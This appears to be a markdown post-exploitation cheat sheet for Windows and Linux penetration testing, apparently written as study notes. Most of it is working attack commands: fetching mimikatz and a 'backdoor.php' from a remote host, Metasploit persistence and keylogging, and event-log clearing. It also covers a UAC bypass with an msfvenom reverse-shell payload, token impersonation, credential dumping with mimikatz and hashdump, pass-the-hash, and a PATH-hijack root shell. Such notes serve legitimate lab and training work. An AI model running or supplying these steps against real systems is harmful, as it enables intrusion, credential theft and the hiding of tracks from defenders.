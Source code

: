 # General

<details>
<summary>Transfer files</summary>

- Windows
  - `certutil -urlcache -f http://<host>/mimikatz.exe mimikatz.exe`
- Linux
  - `wget http://<host>/backdoor.php`
- Netcat
  - `nc -nvlp 1234 > test.txt (recepient)`
  - `nc -nv ip port < test.txt (sender)`
    
</details>

# Windows

<details>
<summary>Enumeration</summary>

- System info
  - `systeminfo`
  - `whoami` : Get current user
  - `whoami /priv` : Get current user privileges. Useful for privelage escalation
  - `wmic qfe get Caption,HotFixID,InstalledOn,Description` : Get installed updates. Useful to see security patch
  - `net localgroup <user>` : Get group membership of user
  - `net user <user>` : Get user info
- Network Info
  - `ipconfig /all`
  - `netstat -ano` : lists info on tcp/udp ports	
  - `netsh advfirewall show allprofiles` : shows f/w status
  - `arp -a` : display arp table
  - `route print` : print route table
- Processes & Services 
  - `net start` : lists services running
  - `wmic service list brief` : same as above with extra details like pid  
  - `net stop <servicename>` : stop a service
  - `tasklist /svc` : list process with respecive services
  - `schtasks /query /fo list /v` : list scheduled tasks
- Automation : JAWS - https://github.com/411Hall/JAWS
  - `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`     

</details>

<details>
<summary>Persistence</summary>
 
- Metasploit
  - search persistence module (Windows)
  - Ex: exploit/windows/local/persistence_service
    - It will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
  - You need to set a listener to receive the connection
- Enable RDP
  - with metasploit : search enable_rdp (and set session)
    - Connect to victim from attacker
      - Note: you need username and password, if you don't have the password : change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM...
      - Note 2: you can create a new account and add it to administrator group...
        
</details>

<details>
<summary>Keylogger</summary>
 
- Metasploit
  - `keyscan_start` : start keylogger
  - `keyscan_dump` : print captured strokes
        
</details>

<details>
<summary>Pivoting</summary>
 
- Metasploit
  - `ipconfig` : find subnet (the host may be 
  - `run autoroute -s <subnet>` : adds routes
  - `run autoroute -p` : displays active routing table
  - auxiliary/scanner/portscan/tcp : discover other systems
  - `portfwd add -l 1234 -p 80 -r <target_sys_2_ip>` : forward remote port to local port
  - `portfwd list`
  - `nmap -sV -sS -p 1234 localhost`
  - since target_sys_2 does not have a route back to attacker_sys, use bind_shell payload : windows/meterpreter/bind_tcp
  
</details>

<details>
<summary>Clearing tracks</summary>
 
- Metasploit/Meterpreter
  - `clearev`
  
</details>

<details>
<summary>Privilege Escalation</summary>

<br>

<details>
<summary>UAC Bypass</summary>
 
- User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
- Prerequisites:
  1.  User must be a member of the Administrators group.
     - `net localgroup administrators`
  2. Full interactive shell with the victim (a common nc.exe shell is not enough).
     - You can use meterpreter
- Metasploit
  - search module bypassuac ...
- UACME
  1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
     - `ps` to show process 
     - (ex. `migrate <PID explorer.exe>`)
  3. Upload Akagi (Akagi64.exe if x64)
  3. Create payload with msfvenom
     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
  5. Use exploit/multi/handler to start a listener
  6. Akagi64.exe 23 <payload_full_path>
     - **NOTE FULL PATH**
  7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
      
</details>

<details>
<summary>Impersonate Tokens</summary>
  
- With msfconsole: `load incognito`
- `list_tokens -u`
- `impersonate_token <token_name>`
- You may need to migrate process to a <user> process
  - Ex. `getpid` : 2628, `ps` :
    |PID  | PPID | Name | Arch | Session | User | Path|
    | ---  | --- | --- | ---  | --- | --- | --- |
    |2628 | 4780 | WHAYQtsbkO.exe |  | 1 | | |
    |... | ... | ... | ... | ... | ... | ... |
    |2948 | 2036 | explorer.exe | X64 | 1 | ATTACKDEFENSE\Administrator | C:\Windows\explorer.exe |
- `getpid 2948`
- Of course you can repeat the process to become NT AUTHORITY\SYSTEM

</details>

<details>
<summary>Password in configuration file (Unattend.xml)</summary>

- An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
- ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
- Extract password and decode it (from base64)
      
</details>

<details>
<summary>Credential Dumping (Mimikatz - Kiwi - Hashdump)</summary>
    
- Prerequisites: User must be a member a local Administrators.
1) Method (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `hashdump`
2) Kiwi (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `load kiwi`
   - `creds_all` Retrieve all credentials (parsed)
   - `lsa_dump_sam` Here you can see that NTLM hashes for all of the user accounts on the system.
   - To find the clear text passwords : `lsa_dump_secrets`
     - However, from the Windows version 8.0+, windows don’t store any plain text password. So, it can be helpful for the older version of the Windows.
3) Mimikatz
   - upload mimikatz.exe
   - `\mimkatz.exe`
   - `privilege::debug` - should return Privilege '20' OK - This should be a standard for running mimikatz as it needs local administrator access
   - `lsadump::sam` : NTLM hashes for all of the user accounts on the system 
   - `sekurlsa::logonpasswords` : To find the clear text passwords, but it's not always possible

</details>

<details>
<summary>Pass the Hash</summary>

Useful for persinstence...
1) `crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"`
2) Metasploit : windows/smb/psexec and set SMBPass with `<LM hash>:<NTLM hash>`
   - empty LM hash : `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
     - `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
   - With `hashdump` you have the right format
  
</details>

<details>
<summary>Other</summary>

- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software
  
</details>


</details>

# Linux

<details>
<summary>Enumeration</summary>

- System info
  - `cat /etc/issue` Print linux distro version
  - `uname -a` Print certain system information. One example : Useful for kernel privesc or to show architecture 
  - `env` Print environment variables
  - `cat /etc/issue` Contains a message or system identification to be printed before the login prompt
  - `lscpu` : for hardware info
  - `free -h` : for RAM usage
  - `df -h` : for disk usage
  - `dpkg -l` : list packages installed with version
- Enumerate Users
  - `whoami`
  - `groups <user>`
  - `useradd -m bob -s /bin/bash` : Creates a user. Useful for persistence
  - `usermod -aG root bob` : Add bob to root group. Useful for persistence
  - `lastlog` : ssh session enumerate
  - `last` : log of users logged in
- Enumerate Network
  - We want: Current IP, Internal networks, TCP/UDP services running and their respective ports, Other hosts on the network
  - `ip a`
    - Useful to discover other network
  - `cat /etc/hostname` : display hostname
  - `cat /etc/hosts` : maps IP addresses to domain
    - Useful to discover internal domain you can access
  - `cat /etc/resolv.conf` : display the domain name server
    - Many times it is the default gateway
  - Meterpreter
    - `netstat` : Display the network connections
    - `route` : View and modify the routing table
      - Note: gateway is important... it can be a DNS server, DHCP server or all in one
    - `arp -a` : Display the host ARP cache
- Processes & services
  - `ps aux | grep root` : Useful for privesc
  - `top` dynamic real-time view of a running system (like task manager)
  - `crontab -l` : display cronjob for the root user
  - `ls -al /etc/cron*` : display all file that contains cronjob
  - `cat /etc/cron*` : display the contents of all cronjob files

</details>

<details>
<summary>Privilege Escalation</summary>

<br>

<details>
<summary>Vulnerable program</summary>

- Search scripts that execute programs or programs. : Search for any vulnerable version. One example: chkrootkit v0.49 (running as root)
  - `ps aux`

</details>

<details>
<summary>Other</summary>

- `sudo -l `
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)
  
</details>

</details>

<details>
<summary>Persistence</summary>

- Metasploit
  - search persistence module (Linux)
    - Example: post/linux/manage/sshkey_persistence (needed elevated privs)

</details>

# Resource
https://juggernaut-sec.com/blog/
Resource | Description 
--- | ---
[GTFOBins](https://gtfobins.github.io/) | GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems
[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) | Linux Privilege Escalation Awesome Script|
[pspy](https://github.com/DominicBreuker/pspy) | Monitor linux processes without root permissions|
[Priv2Admin](https://github.com/gtworek/Priv2Admin)  | Windows Privileges with Windows OS privileges |
